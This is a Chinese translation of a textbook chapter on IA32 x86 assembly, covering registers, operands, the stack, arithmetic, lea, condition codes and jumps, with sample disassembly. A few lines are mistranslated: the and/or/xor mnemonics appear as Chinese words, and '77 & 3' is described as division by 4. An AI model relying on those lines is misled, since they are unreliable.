# 第九章：32 位 x86 汇编（IA32）


在本章中，我们将探索 Intel 架构 32 位（IA32）指令集架构。回想一下 第五章，指令集架构（ISA）定义了机器级程序的指令集和二进制编码。要运行本章中的示例，你需要一台配有 x86 处理器的机器或一个可以创建 32 位可执行文件的编译器。术语“x86”通常与 IA32 架构互换使用。x86 架构及其 64 位变种 x86-64 在现代计算机中无处不在。

很少有现代机器配备 32 位处理器；自 2007 年以来，大多数 Intel 和 AMD 系统都配备了 64 位处理器。要检查你的处理器类型，可以使用 `uname -p` 命令：

```
$ uname -p

i686
```

如果输入 `uname -p` 返回 `i686` 或 `i386`，说明你的系统配备的是 32 位处理器。然而，如果 `uname -p` 返回 `x86_64`，说明你的系统配备的是较新的 64 位处理器。请注意，因为 x86-64 是较旧的 IA32 ISA 的 *扩展*，几乎所有 64 位系统都包含一个 32 位子系统，允许执行 32 位可执行文件。

如果你使用的是 64 位 Linux 系统，有时需要额外的包来允许用户创建 32 位可执行文件，就像我们在本章中将要做的那样。例如，在 Ubuntu 系统上，你需要安装 32 位开发库和其他包，以增强 GCC 的交叉编译功能：

```
$ sudo apt-get install libc6-dev-i386 gcc-multilib
```

x86 语法分支

x86 架构通常遵循两种不同的语法分支之一。由于 Unix 在 AT&T 贝尔实验室开发，Unix 机器通常使用 AT&T 语法。相应的汇编器是 GNU 汇编器（GAS）。由于我们在本书中大多数示例都使用 GCC，因此我们在本章中讲解 AT&T 语法。Windows 机器通常使用 Intel 语法，这是微软宏汇编器（MASM）使用的语法。Netwide 汇编器（NASM）是一个使用 Intel 语法的 Linux 汇编器。关于哪种语法更优的争论，是该学科的“圣战”之一。然而，熟悉这两种语法是有价值的，因为程序员在不同的情况下可能会遇到其中的任何一种。

### 8.1 探索汇编语言：基础知识

在初次接触汇编时，我们将修改 第六章 中的 `adder` 函数，简化其行为。这里是修改后的函数（`adder2`）：

modified.c

```
#include <stdio.h>

//adds two to an integer and returns the result

int adder2(int a) {

    return a + 2;

}

int main(){

    int x = 40;

    x = adder2(x);

    printf("x is: %d\n", x);

    return 0;

}
```

要编译这段代码，请使用以下命令：

```
$ gcc -m32 -o modified modified.c
```

`-m32` 标志告诉 GCC 编译器将代码编译为 32 位可执行文件。如果忘记包含这个标志，生成的汇编代码可能与本章中的示例有很大不同；默认情况下，GCC 编译为 x86-64 汇编，即 x86 的 64 位变体。然而，几乎所有的 64 位架构都具有用于向后兼容的 32 位操作模式。本章介绍 IA32，其他章节则涵盖 x86-64 和 ARM。尽管 IA32 已有些年头，但它仍然对于理解程序如何运行和如何优化代码非常有用。

接下来，让我们通过输入以下命令查看这段代码的对应汇编：

```
$ objdump -d modified > output

$ less output
```

在使用 `less` 查看文件 `output` 时，输入 `/adder2` 查找与 `adder2` 相关的代码片段。与 `adder2` 相关的部分应类似于以下内容：

```
0804840b <adder2>:

 804840b:       55                      push   %ebp

 804840c:       89 e5                   mov    %esp,%ebp

 804840e:       8b 45 08                mov    0x8(%ebp),%eax

 8048411:       83 c0 02                add    $0x2,%eax

 8048414:       5d                      pop    %ebp

 8048415:       c3                      ret
```

*adder2 函数的汇编输出*

如果你还不明白发生了什么，也不用担心。我们将在后面的章节中更详细地讲解汇编内容。目前，我们将研究这些单独指令的结构。

上面示例中的每一行都包含了指令在程序内存中的地址、与指令对应的字节以及指令本身的明文表示。例如，`55` 是指令 `push %ebp` 的机器码表示，且该指令出现在程序内存地址 0x804840b 处。

需要注意的是，一行 C 代码通常会翻译成多条汇编指令。操作 `a + 2` 由两条指令 `mov 0x8(%ebp),%eax` 和 `add $0x2,%eax` 表示。

**警告：你的汇编代码可能会有所不同！**

如果你正在与我们一起编译代码，你可能会注意到你的某些汇编示例与本书中展示的有所不同。任何编译器输出的精确汇编指令取决于该编译器的版本和底层操作系统。本书中的大部分汇编示例是在运行 Ubuntu 或 Red Hat Enterprise Linux (RHEL) 系统上生成的。

在接下来的示例中，我们没有使用任何优化标志。例如，我们使用命令 `gcc -m32 -o example example.c` 编译任何示例文件（`example.c`）。因此，接下来的示例中有许多看似冗余的指令。请记住，编译器并不“智能”——它只是按照一系列规则将人类可读的代码翻译成机器语言。在这个翻译过程中，出现某些冗余是很常见的。优化编译器在优化过程中会去除这些冗余，优化内容将在第十二章中详细介绍。

#### 8.1.1 寄存器

回想一下，*寄存器*是直接位于 CPU 上的字长存储单元。可能会有不同的寄存器用于存储数据、指令和地址。例如，Intel CPU 有八个用于存储 32 位数据的寄存器：`%eax`、`%ebx`、`%ecx`、`%edx`、`%edi`、`%esi`、`%esp` 和 `%ebp`。

程序可以读取或写入这八个寄存器的内容。前六个寄存器都用于存储通用数据，而最后两个寄存器通常被编译器保留用于存储地址数据。虽然程序可以将通用寄存器的内容解释为整数或地址，但寄存器本身并不区分这些类型。最后两个寄存器（`%esp`和`%ebp`）分别被称为*栈指针*和*帧指针*。编译器保留这些寄存器用于维护程序栈的布局。通常，`%esp`指向程序栈的顶部，而`%ebp`指向当前栈帧的底部。我们将在“汇编中的函数”（见第 326 页）的讨论中更详细地探讨栈帧和这两个寄存器。

最后一个值得提及的寄存器是`%eip`，也称为*指令指针*，有时也叫*程序计数器*（PC）。它指向 CPU 即将执行的下一条指令。与之前提到的八个寄存器不同，程序不能直接写入`%eip`寄存器。

#### 8.1.2 高级寄存器符号

对于前六个寄存器，指令集架构（ISA）提供了一种机制来访问每个寄存器的低 16 位。ISA 还提供了另一种机制，用于访问前四个寄存器的低 16 位中的 8 位组件。表 8-1 列出了每个寄存器及其访问组件字节的 ISA 机制（如果有的话）。

**表 8-1：** x86 寄存器及访问低字节的机制

| **32 位寄存器** **(位 31–0)** | **低 16 位** **(位 15–0)** | **(位 15–8)** | **(位 7–0)** |
| --- | --- | --- | --- |
| `%eax` | `%ax` | `%ah` | `%al` |
| `%ebx` | `%bx` | `%bh` | `%bl` |
| `%ecx` | `%cx` | `%ch` | `%cl` |
| `%edx` | `%dx` | `%dh` | `%dl` |
| `%edi` | `%di` |  |  |
| `%esi` | `%si` |  |  |

任何上述寄存器的低 16 位可以通过引用寄存器名称中的最后两个字母来访问。例如，使用`%ax`来访问`%eax`的低 16 位。

可以通过获取寄存器名称中的最后两个字母，并根据需要的字节，将最后一个字母替换为`h`（表示*高字节*）或`l`（表示*低字节*）来访问前四个列出的寄存器的低 16 位中的*高字节*和*低字节*。例如，`%al`引用`%ax`寄存器的低 8 位，而`%ah`引用`%ax`寄存器的高 8 位。这些 8 位寄存器通常由编译器用于存储某些操作的单字节值，例如按位移位操作（32 位寄存器不能被移位超过 32 位，而数字 32 只需要一个字节的存储）。通常，编译器会使用完成操作所需的最小组件寄存器。

#### 8.1.3 指令结构

每条指令由操作码（或 *操作码*）和一个或多个 *操作数* 组成，操作数指定指令如何执行操作。例如，指令 `add $0x2,%eax` 中，操作码是 `add`，操作数是 `$0x2` 和 `%eax`。

每个操作数对应特定操作的源或目标位置。操作数有多种类型：

+   *常量*（*字面量*）值前面有 `$` 符号。例如，在指令 `add $0x2,%eax` 中，`$0x2` 是一个字面量值，对应十六进制值 0x2。

+   *寄存器*形式指的是各个独立的寄存器。指令 `add` `$0x2,%eax` 指定寄存器 `%eax` 为目标位置，其中将存储 `add` 操作的结果。

+   *内存*形式指的是主内存（RAM）中的某个值，通常用于地址查找。内存地址形式可以包含寄存器和常量值的组合。例如，在指令 `mov 0x8(%ebp),%eax` 中，操作数 `0x8(%ebp)` 就是内存形式的一个例子。它大致翻译为“将 0x8 加到寄存器 `%ebp` 的值上，然后执行内存查找。”如果这听起来像是指针解引用，那是因为它确实是！

#### 8.1.4 操作数示例

解释操作数的最佳方法是通过一个快速示例。假设内存中包含以下值：

| **地址** | **值** |
| --- | --- |
| 0x804 | 0xCA |
| 0x808 | 0xFD |
| 0x80c | 0x12 |
| 0x810 | 0x1E |

假设以下寄存器包含值：

| **地址** | **值** |
| --- | --- |
| `%eax` | 0x804 |
| `%ebx` | 0x10 |
| `%ecx` | 0x4 |
| `%edx` | 0x1 |

然后，表 8-2 中的操作数会计算出所示的值。表中的每一行将一个操作数与其形式（例如，常量、寄存器、内存）进行匹配，显示如何翻译以及其值。请注意，在此上下文中，符号 M[x] 表示位于地址 x 的内存位置中的值。

**表 8-2：** 操作数示例

| **操作数** | **形式** | **翻译** | **值** |
| --- | --- | --- | --- |
| `%ecx` | 寄存器 | `%ecx` | 0x4 |
| `(%eax)` | 内存 | M[`%eax`] 或 M[0x804] | 0xCA |
| `$0x808` | 常量 | 0x808 | 0x808 |
| `0x808` | 内存 | M[0x808] | 0xFD |
| `0x8(%eax)` | 内存 | M[`%eax` + 8] 或 M[0x80c] | 0x12 |
| `(%eax, %ecx)` | 内存 | M[`%eax` + `%ecx`] 或 M[0x808] | 0xFD |
| `0x4(%eax, %ecx)` | 内存 | M[`%eax` + `%ecx` + 4] 或 M[0x80c] | 0x12 |
| `0x800(,%edx,4)` | 内存 | M[0x800 + `%edx`×4] 或 M[0x804] | 0xCA |
| `(%eax, %edx, 8)` | 内存 | M[`%eax` + `%edx`×8] 或 M[0x80c] | 0x12 |

在 表 8-2 中，符号 `%ecx` 表示寄存器 `%ecx` 中存储的值。相比之下，M[`%eax`] 表示将 `%eax` 中的值作为地址进行处理，并查找该地址中的值。因此，操作数 `(%eax)` 对应于 M[0x804]，其值为 0xCA。

在继续之前，有几点重要说明。虽然 表 8-2 显示了许多有效的操作数形式，但并非所有形式都能在所有情况下互换使用。

具体来说：

+   常量形式不能作为目标操作数。

+   内存形式不能作为单条指令中的*源操作数*和*目标操作数*同时使用。

+   在缩放操作的情况下（参考 表 8-2 中显示的最后两个操作数），缩放因子必须是 1、2、4 或 8 之一。

表 8-2 提供了参考，但理解关键的操作数形式将帮助读者提高解析汇编语言的速度。

#### 8.1.5 指令后缀

在接下来的几个例子中，常见的算术指令会有一个后缀，表示在代码层面上操作的数据的 *大小*（与 *类型* 相关）。编译器会自动将代码翻译为带有适当后缀的指令。表 8-3 展示了 x86 指令的常见后缀。

**表 8-3：** 示例指令后缀

| **后缀** | **C 类型** | **大小（字节）** |
| --- | --- | --- |
| b | `char` | 1 |
| w | `short` | 2 |
| l | `int`，`long`，`unsigned` | 4 |

请注意，涉及条件执行的指令会根据评估的条件使用不同的后缀。我们将在“条件控制和循环”部分中讨论与条件指令相关的内容，详见 第 310 页。

### 8.2 常见指令

本节讨论了几条常见的 x86 汇编指令。 表 8-4 列出了 x86 汇编中最基础的指令。

**表 8-4：** 最常见的指令

| **指令** | **翻译** |  |
| --- | --- | --- |
| `mov S,D` | S → D | （将 S 的值复制到 D） |
| `add S,D` | S + D → D | （将 S 加到 D 并将结果存储到 D） |
| `sub S,D` | D – S → D | （从 D 中减去 S 并将结果存储到 D） |

因此，指令序列

```

mov    0x8(%ebp),%eax

add    $0x2,%eax
```

翻译为：

+   将内存中 `%ebp` + 0x8 位置的值（或 M[`%ebp` + 0x8]）复制到寄存器 `%eax`。

+   将值 0x2 加到寄存器 `%eax`，并将结果存储到寄存器 `%eax` 中。

表 8-4 中展示的三条指令也是构建保持程序堆栈结构的指令（即 *调用堆栈*）的基础模块。回想一下，寄存器 `%ebp` 和 `%esp` 分别表示 *帧* 指针和 *栈* 指针，并由编译器保留用于调用堆栈管理。回顾我们在“程序内存及作用域”部分中讨论的内容（见 第 64 页），调用堆栈存储局部变量和参数，并帮助程序跟踪自身执行过程（见 图 8-1）。



*图 8-1：程序地址空间的组成部分*

在 IA32 系统中，执行栈朝 *较低* 地址方向增长。像所有栈数据结构一样，操作发生在栈的“顶部”。x86 ISA 提供了两条指令（表 8-5）来简化调用栈管理。

**表 8-5：** 栈管理指令

| **指令** | **翻译** |
| --- | --- |
| `push S` | 将 S 的副本压入栈顶。等价于： |
|  | `sub $4,%esp` |
|  | `mov S,(%esp)` |
| `pop D` | 弹出栈顶元素并将其放入位置 D。 |
|  | 等价于： |
|  | `mov (%esp),D` |
|  | `add $4,%esp` |

请注意，表 8-4 中的三条指令需要两个操作数，而表 8-5 中的 `push` 和 `pop` 指令每条只需要一个操作数。

#### 8.2.1 将所有内容整合：一个更具体的例子

让我们更仔细地看一下 `adder2` 函数。

```
//adds two to an integer and returns the result

int adder2(int a) {

    return a + 2;

}
```

以及其对应的汇编代码：

```

0804840b <adder2>:

 804840b:       55                      push   %ebp

 804840c:       89 e5                   mov    %esp,%ebp

 804840e:       8b 45 08                mov    0x8(%ebp),%eax

 8048411:       83 c0 02                add    $0x2,%eax

 8048414:       5d                      pop    %ebp

 8048415:       c3                      ret

```

汇编代码由一条 `push` 指令开始，接着是几条 `mov` 指令、一个 `add` 指令、一条 `pop` 指令，最后是一个 `ret` 指令。为了理解 CPU 如何执行这组指令，我们需要回顾程序内存的结构（参见第 64 页的“程序内存的各个部分与作用域”）。回想一下，每次程序执行时，操作系统都会为新程序分配地址空间（也称为 *虚拟内存*）。虚拟内存和相关的进程概念将在第十三章中更详细地介绍；目前，只需把进程看作是正在运行的程序的抽象，虚拟内存看作是为单个进程分配的内存。每个进程都有自己的一块内存区域，称为 *调用栈*。请记住，调用栈位于进程/虚拟内存中，而寄存器则位于 CPU 上。

图 8-2 展示了 `adder2` 函数执行前调用栈和寄存器的示例状态。



*图 8-2：执行前的执行栈*

请注意，栈朝 *较低* 地址方向增长。寄存器 `%eax` 和 `%edx` 当前包含垃圾值。程序内存中代码段的指令地址（0x804840b–0x8048415）已缩短为 0x40b–0x415，以提高图示的可读性。同样，程序内存中调用栈段的地址已从 0xffffd108–0xffffd110 缩短为 0x108–0x110。实际上，调用栈的地址位于程序内存中比代码段地址更高的位置。

请特别注意寄存器 `%esp` 和 `%ebp` 的初始（假设）值：分别为 0x10c 和 0x12a。当前调用栈在栈地址 0x110 处存储着值 0x28（或 40）（为什么和如何存储到这里的将在我们关于“汇编中的函数”讨论中，详见 第 326 页）。以下图中的左上箭头直观地表示当前正在执行的指令。`%eip` 寄存器（或指令指针）显示下一条要执行的指令。最初，`%eip` 包含地址 0x40b，这对应于 `adder2` 函数中的第一条指令。


第一条指令（`push %ebp`）将 `%ebp`（或 0x12a）中的值复制到栈顶。执行后，`%eip` 寄存器指向下一条要执行的指令的地址（或 0x40c）。`push` 指令将栈指针减小 4（即栈“增长”了 4 字节），导致新的 `%esp` 值为 0x108。回想一下，`push %ebp` 指令等同于：

```
sub $4,%esp

mov %ebp,(%esp)
```

换句话说，从栈指针中减去 4，并将 `%ebp` 寄存器的内容复制到栈指针所指向的位置 `(%esp)` 中。



回想一下，`mov` 指令的结构是 `mov S,D`，其中 S 是源位置，D 是目标位置。因此，下一条指令（`mov` `%esp,%ebp`）将 `%ebp` 的值更新为 0x108。寄存器 `%eip` 前进到下一条要执行的指令的地址，即 0x40e。



接下来执行的是 `mov 0x8(%ebp),%eax`。这比上条 `mov` 指令要复杂一些。让我们通过查阅上一节的操作数表来解析它。首先，`0x8(%ebp)` 解释为 M[`%ebp` + 0x8]。由于 `%ebp` 包含 0x108，将 8 加到它上面得到 0x110。对 0x110 进行（栈）内存查找得到的值是 0x28（回想一下，0x28 是之前的代码将其放置到栈上的）。因此，0x28 被复制到寄存器 `%eax` 中。指令指针 `%eip` 前进到地址 0x411，即下一条要执行的地址。



随后执行的是 `add $0x2,%eax`。回想一下，`add` 指令的形式是 `add S,D`，它将 S + D 的结果存放到目标 D 中。所以，`add` `$0x2,%eax` 将常量值 0x2 加到存储在 `%eax` 中的值（或 0x28）上，结果是 0x2A 被存入寄存器 `%eax` 中。寄存器 `%eip` 前进到指向下一条要执行的指令的地址，即 0x414。



下一条执行的指令是 `pop %ebp`。这条指令将从调用栈中“弹出”一个值，并将其放入目标寄存器 `%ebp` 中。回想一下，这条指令等同于以下两条指令的序列：

```
mov (%esp),%ebp

add $4,%esp
```

执行此指令后，栈顶（`%esp`）或 M[0x108]的值被复制到寄存器`%ebp`中。因此，`%ebp`现在包含值 0x12a。由于栈向较低地址增长（因此，*向上缩小*），栈指针`%esp`*增加*了 4。`%esp`的新值是 0x10c，`%eip`现在指向此代码片段中最后一条要执行的指令的地址（0x415）。

最后执行的指令是`ret`。我们将在未来的章节中讨论`ret`的执行情况，特别是在讲解函数调用时，但现在需要知道的是，它为从函数返回准备了调用栈。根据惯例，寄存器`%eax`始终包含返回值（如果存在）。在本例中，函数返回值是 0x2A，对应的十进制值是 42。

在继续之前，请注意，寄存器`%esp`和`%ebp`的最终值分别为 0x10c 和 0x12a，这些值*与函数开始执行时相同*！这是调用栈的正常行为。调用栈的目的是在函数执行过程中存储每个函数的临时变量和数据。一旦函数执行完成，栈将恢复到函数调用前的状态。因此，您通常会在函数的开头看到以下两个指令。

```
push %ebp

mov %esp, %ebp
```

并且在每个函数的结尾处有以下两个指令：

```
pop %ebp

ret
```

### 8.3 算术指令

IA32 指令集架构（ISA）实现了几条与算术运算相关的指令，这些运算由算术逻辑单元（ALU）执行。表 8-6 列出了在阅读汇编时可能会遇到的几条算术指令。

**表 8-6：** 常见的算术指令

| **指令** | **翻译** |
| --- | --- |
| `add S, D` | S + D → D |
| `sub S, D` | D - S → D |
| `inc D` | D + 1 → D |
| `dec D` | D - 1 → D |
| `neg D` | -D → D |
| `imul S, D` | S × D → D |
| `idiv S` | `%eax` / S: 商 → `%eax`, 余数 → `%edx` |

`add`和`sub`指令对应加法和减法，每个指令需要两个操作数。接下来的三条条目显示了单寄存器指令，分别对应 C 语言中的自增（`x++`）、自减（`x--`）和取负（`-x`）操作。乘法指令作用于两个操作数，将积存入目标寄存器。如果积需要超过 32 位来表示，结果将被截断为 32 位。

除法指令的工作方式略有不同。在执行`idiv`指令之前，假定寄存器`%eax`包含被除数。对操作数 S 执行`idiv`时，将`%eax`的内容除以 S，并将商存入寄存器`%eax`，余数存入寄存器`%edx`。

#### 8.3.1 位移指令

位移指令使编译器能够执行位移操作。乘法和除法指令通常需要较长时间才能执行。位移为编译器提供了一种针对 2 的幂次方的乘法因子和除数的快捷方式。例如，要计算`77 * 4`，大多数编译器会将此操作转换为`77 ≪ 2`，以避免使用`imul`指令。同样，要计算`77 / 4`，编译器通常将此操作转换为`77 ≫ 2`，以避免使用`idiv`指令。

请记住，左位移和右位移根据目标是算术（有符号）还是逻辑（无符号）位移，翻译为不同的指令。

**表 8-7：** 位移指令

| **指令** | **翻译** | **算术或逻辑？** |
| --- | --- | --- |
| `sal v, D` | D `≪` v → D | 算术 |
| `shl v, D` | D `≪` v → D | 逻辑 |
| `sar v, D` | D `≫` v → D | 算术 |
| `shr v, D` | D `≫` v → D | 逻辑 |

每个位移指令都有两个操作数，其中一个通常是寄存器（用 D 表示），另一个是位移值（*v*）。在 32 位系统上，位移值作为单个字节进行编码（因为位移超过 31 是没有意义的）。位移值 *v* 必须是常量或存储在寄存器`%cl`中。

**注意：不同版本的指令帮助区分汇编层级的类型**

在汇编层级，没有类型的概念。然而，请记住，右移操作的行为取决于值是否有符号。在汇编层级，编译器使用不同的指令来区分逻辑位移和算术位移！

#### 8.3.2 位运算指令

位运算指令使编译器能够对数据执行按位操作。编译器使用位运算的一种方式是进行某些优化。例如，编译器可能选择用操作`77 &` `3`来实现 77 除以 4，而不是使用更昂贵的`idiv`指令。

表 8-8 列出了常见的位运算指令。

**表 8-8：** 位运算

| **指令** | **翻译** |
| --- | --- |
| `与 S,D` | S `&` D → D |
| `或 S,D` | S `&#124;` D → D |
| `异或 S,D` | S `^` D → D |
| `not D` | `~`D → D |

记住，位运算的`not`与否定（`neg`）是不同的。`not`指令翻转位，但不加 1。小心不要混淆这两条指令。

**警告：仅在需要时在 C 代码中使用位运算！**

阅读完本节后，可能会有冲动想将 C 代码中的常见算术运算替换为位移和其他位运算。*不*推荐这样做。大多数现代编译器足够智能，能够在合适的时候将简单的算术运算替换为位运算，因此程序员无需手动做这些替换。一般而言，程序员应尽可能优先考虑代码可读性，避免过早优化。

#### 8.3.3 加载有效地址指令

*“lea 和它有什么关系呢？”*

*`lea`是什么？不过是有效地址加载而已！*

—致歉，Tina Turner

我们终于来到了*加载有效地址*（load effective address）指令，简称`lea`，这可能是让学生最困惑的算术指令。它通常用作快速计算内存位置地址的方式。`lea`指令与我们到目前为止见过的操作数结构相同，但*不*包括内存查找。无论操作数中包含的是常量值还是地址，`lea`仅执行算术运算。

例如，假设寄存器`%eax`包含常量值 0x5，寄存器`%edx`包含常量值 0x4，寄存器`%ecx`包含值 0x808（恰好是一个地址）。表 8-9 给出了一些`lea`操作的示例，它们的翻译以及相应的值。

**表 8-9：** `lea` 操作示例

| **指令** | **翻译** | **值** |
| --- | --- | --- |
| `lea 8(%eax), %eax` | 8 + `%eax` → `%eax` | 13 → `%eax` |
| `lea (%eax, %edx), %eax` | `%eax` + `%edx` → `%eax` | 9 → `%eax` |
| `lea (,%eax,4), %eax` | `%eax` × 4 → `%eax` | 20 → `%eax` |
| `lea -0x8(%ecx), %eax` | `%ecx` – `8` → `%eax` | 0x800 → `%eax` |
| `lea -0x4(%ecx, %edx, 2), %eax` | `%ecx` + `%edx` × 2 – 4 → `%eax` | 0x80c → `%eax` |

在所有情况下，`lea`指令对由源操作数 S 指定的操作数执行算术运算，并将结果放入目标操作数 D 中。`mov`指令与`lea`指令相同，*唯一的区别*是`mov`指令*必须*将源操作数中的内容视为内存位置，如果它是内存形式。而`lea`执行相同（有时复杂的）操作数算术，*无需*内存查找，从而使得编译器可以巧妙地将`lea`作为某些类型算术运算的替代。

### 8.4 条件控制与循环

本节涵盖了与条件语句和循环相关的汇编指令（参见第 30 页的“条件语句与循环”）。回想一下，条件语句使得程序员可以根据条件表达式的结果修改程序执行。编译器将条件语句转换为汇编指令，这些指令会修改指令指针（`%eip`），使其指向一个不同于程序顺序下一个地址的地址。

#### 8.4.1 前提条件

##### 条件比较指令

比较指令执行算术运算，目的是指导程序的条件执行。表 8-10 列出了与条件控制相关的基本指令。

**表 8-10：** 条件控制指令

| **指令** | **翻译** |
| --- | --- |
| `cmp R1, R2` | 比较 R2 与 R1（即，计算 R2 – R1） |
| `test R1, R2` | 计算 R1 & R2 |

`cmp` 指令比较两个寄存器 R2 和 R1 的值。具体来说，它将 R1 从 R2 中减去。`test` 指令执行按位与运算。常见的指令形式如下：

```
test %eax, %eax
```

在这个例子中，`%eax` 和其自身的按位与运算仅当 `%eax` 为零时结果为零。换句话说，这是对零值的测试，等价于以下内容：

```
cmp $0, %eax
```

与之前介绍的算术指令不同，`cmp` 和 `test` 不会修改目标寄存器。相反，这两个指令会修改一系列被称为 *条件码标志* 的单比特值。例如，`cmp` 会根据 R2 – R1 的结果是正值（大于）、负值（小于）还是零（相等）来修改条件码标志。回想一下，条件码值编码了 ALU 操作的信息（详见 第 261 页的“ALU”）。这些条件码标志是 x86 系统上 `FLAGS` 寄存器的一部分。

**表 8-11：** 常见条件码标志

| **标志** | **翻译** |
| --- | --- |
| `ZF` | 等于零（1：是；0：否） |
| `SF` | 为负（1：是；0：否） |
| `OF` | 已发生溢出（1：是；0：否） |
| `CF` | 已发生算术进位（1：是；0：否） |

表 8-11 展示了常用的条件码操作标志。回顾一下 `cmp R1, R2` 指令：

+   如果 R1 和 R2 相等，则 `ZF` 标志被设置为 1。

+   如果 R2 小于 `R1`（R2 – R1 结果为负值），则 `SF` 标志被设置为 1，且 R2 *小于* `R1`。

+   如果操作 R2 – R1 结果为整数溢出（对有符号比较有用），则 `OF` 标志被设置为 1。

+   如果操作 R2 – R1 结果为进位操作（对无符号比较有用），则 `CF` 标志被设置为 1。

`SF` 和 `OF` 标志用于有符号整数的比较操作，而 `CF` 标志用于无符号整数的比较。虽然深入讨论条件码标志超出了本书的范围，但 `cmp` 和 `test` 指令的设置使得我们接下来要讲解的指令（*跳转*指令）能够正确运行。

##### 跳转指令

跳转指令使程序的执行能够“跳跃”到代码中的新位置。在我们到目前为止追踪的汇编程序中，`%eip` 始终指向程序内存中的下一条指令。跳转指令使得 `%eip` 可以被设置为一个新的尚未执行的指令（如 `if` 语句的情况），或是一个之前已执行过的指令（如循环的情况）。

**表 8-12：** 直接跳转指令

| **指令** | **描述** |
| --- | --- |
| `jmp L` | 跳转到由 L 指定的位置 |
| `jmp *addr` | 跳转到指定的地址 |

**直接跳转指令。** 表 8-12 列出了直接跳转指令集；`L`代表*符号标签*，它是程序目标文件中的标识符。所有标签由字母和数字组成，后跟冒号。标签可以是*本地*的，也可以是*全局*的，取决于目标文件的作用域。函数标签通常是*全局*的，通常由函数名和冒号组成。例如，`main:`（或`<main>:`）用于标记用户定义的`main`函数。相比之下，作用域为*本地*的标签前面会有一个句点。例如，`.L1:`是一个可能出现在`if`语句或循环中的本地标签。

所有标签都有一个关联的地址。当 CPU 执行`jmp`指令时，它会修改`%eip`以反映标签`L`所指定的程序地址。编写汇编代码的程序员也可以使用`jmp *`指令指定要跳转到的特定地址。有时，本地标签显示为相对于函数开始的偏移量。因此，地址距离`main`开始 28 字节的指令可以用标签`<main+28>`表示。

例如，指令`jmp 0x8048427 <main+28>`表示跳转到地址 0x8048427，该地址具有关联标签`<main+28>`，表示它距离`main`函数的起始地址 28 字节。执行该指令会将`%eip`设置为 0x8048427。

**条件跳转指令。** 条件跳转指令的行为取决于由`cmp`指令设置的条件码寄存器。表 8-13 列出了常见的条件跳转指令集。每条指令以字母`j`开头，表示它是一条跳转指令。每条指令的后缀表示跳转的*条件*。跳转指令的后缀还决定了是否将数值比较解释为有符号或无符号。

**表 8-13：** 条件跳转指令；括号中的同义词

| **有符号比较** | **无符号比较** | **描述** |
| --- | --- | --- |
| `je` (`jz`) |  | 等于时跳转 (==) 或零时跳转 |
| `jne` (`jnz`) |  | 不等时跳转 (!=) |
| `js` |  | 负数时跳转 |
| `jns` |  | 非负时跳转 |
| `jg` (`jnle`) | `ja` (`jnbe`) | 大于时跳转 (>) |
| `jge` (`jnl`) | `jae` (`jnb`) | 大于或等于时跳转 (>=) |
| `jl` (`jnge`) | `jb` (`jnae`) | 小于时跳转 (<) |
| `jle` (`jng`) | `jbe` (`jna`) | 小于或等于时跳转 (<=) |

与其记住这些不同的条件跳转指令，不如通过发音来记住指令后缀。表 8-14 列出了常见的跳转指令中的字母及其对应的单词。

**表 8-14：** 跳转指令后缀

| **字母** | **单词** |
| --- | --- |
| `j` | 跳转 |
| `n` | 不 |
| `e` | 等于 |
| `s` | 有符号 |
| `g` | 大于（有符号解释） |
| `l` | 小于（有符号解释） |
| `a` | 高于（无符号解释） |
| `b` | below（无符号解释） |

读出来后，我们可以看到`jg`对应于*jump greater*，而它的有符号同义词`jnl`代表*jump not less*。同样，无符号版本`ja`代表*jump above*，而它的同义词`jnbe`代表*jump not below or equal*。

如果你把指令读出来，它有助于解释为什么某些同义词对应特定的指令。另一个需要记住的点是，术语*greater*和*less*指示 CPU 将数值比较解释为有符号值，而*above*和*below*则表示数值比较是无符号的。

##### `goto`语句

在接下来的子节中，我们将查看汇编语言中的条件语句和循环，并将其反向工程为 C 语言。当将汇编代码的条件语句和循环转换回 C 语言时，了解相应的 C 语言`goto`形式是很有帮助的。`goto`语句是 C 语言中的一种原语，它强制程序执行跳转到代码中的另一行。与`goto`语句相关的汇编指令是`jmp`。

`goto`语句由`goto`关键字后跟一个*goto 标签*组成，后者是一种程序标签，指示执行应继续到何处。因此，`goto done`意味着程序执行应跳到标记为`done`的行。C 语言中的其他程序标签示例包括前面在《switch 语句》一章中介绍的`switch`语句标签，第 122 页。

以下代码示例展示了一个`getSmallest`函数，首先是普通 C 代码（第一段），其次是其对应的 C 语言`goto`形式（第二段）。`getSmallest`函数比较两个整数（`x`和`y`）的值，并将较小的值赋给变量`smallest`。

普通 C 版本

```
int getSmallest(int x, int y) {

    int smallest;

    if ( x > y ) { //if (conditional)

        smallest = y; //then statement

    }

 else {

        smallest = x; //else statement

    }

    return smallest;

}
```

转到版本

```
int getSmallest(int x, int y) {

    int smallest;

    if (x <= y ) { //if (!conditional)

        goto else_statement;

    }

    smallest = y; //then statement

    goto done;

else_statement:

    smallest = x; //else statement

done:

    return smallest;

}
```

这个函数的`goto`形式可能看起来有些反直觉，但让我们来讨论一下究竟发生了什么。条件语句检查变量`x`是否小于或等于`y`。

+   如果`x`小于或等于`y`，程序将控制权转移到标记为`else_statement`的标签，该标签包含唯一的语句`smallest = x`。由于程序按顺序执行，程序接着执行`done`标签下的代码，返回`smallest`的值（`x`）。

+   如果`x`大于`y`，则将`smallest`赋值为`y`。然后程序执行语句`goto done`，将控制权转移到`done`标签，返回`smallest`的值（`y`）。

尽管`goto`语句在编程早期常常使用，但在现代代码中它的使用被认为是不良的实践，因为它降低了代码的可读性。事实上，计算机科学家 Edsger Dijkstra 写了一篇著名的论文，猛烈抨击了`goto`语句的使用，名为《Go To 语句被认为有害》。^(1)

通常，设计良好的 C 程序不使用`goto`语句，并且不鼓励程序员使用它们，以避免编写难以阅读、调试和维护的代码。然而，理解 C 语言中的`goto`语句非常重要，因为 GCC 通常会在将 C 代码翻译成汇编之前，将包含条件语句和循环的 C 代码转换为`goto`形式。

以下小节将更详细地讲解`if`语句和循环的汇编表示。

#### 8.4.2 汇编中的`if`语句

让我们看一下汇编中的`getSmallest`函数。为了方便起见，函数在这里被重新展示。

```

int getSmallest(int x, int y) {

    int smallest;

    if ( x > y ) {

        smallest = y;

    }

    else {

        smallest = x;

    }

    return smallest;

}
```

从 GDB 提取的相应汇编代码如下所示：

```
(gdb) disas getSmallest

Dump of assembler code for function getSmallest:

  0x8048411 <+6>:   mov    0x8(%ebp),%eax

  0x8048414 <+9>:   cmp    0xc(%ebp),%eax

  0x8048417 <+12>:  jle    0x8048421 <getSmallest+22>

  0x8048419 <+14>:  mov    0xc(%ebp),%eax

  0x804841f <+20>:  jmp    0x8048427 <getSmallest+28>

  0x8048421 <+22>:  mov    0x8(%ebp),%eax

  0x8048427 <+28>:  ret
```

